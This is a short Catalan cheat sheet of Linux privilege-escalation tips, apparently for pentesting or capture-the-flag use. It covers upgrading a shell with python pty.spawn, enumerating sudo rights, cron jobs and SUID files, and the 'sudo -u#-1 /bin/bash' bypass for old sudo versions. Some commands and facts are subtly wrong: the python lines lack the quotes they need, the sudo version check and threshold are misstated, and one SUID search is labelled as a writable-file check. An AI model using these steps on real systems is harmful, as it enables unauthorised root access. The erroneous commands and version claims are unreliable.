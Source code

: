# Tips Shells Linux

### Si la shell no és interactiva

* `python -c import pty;pty.spawn("/bin/bash")`

* `python3 -c import pty;pty.spawn("/bin/bash")`


### Métodes d'escalada senzills

* Comprovem quins binaris o scripts podem executar com sudo sense contrasenya:

  `sudo -l`

* Comprovem la versió de sudo amb `sudo -v`, si és inferior a 1.28 executem:

  `sudo -u#-1 /bin/bash`


### Comprovar treballs de cron

* `ls -lah /etc/cron*`

  o

* `cat /var/log/syslog | grep cron`


### Comprovem arxius amb permisos write

* `find / -writable -type d 2>/dev/null`

  o

* `find / -perm -u=s -type f 2>/dev/null`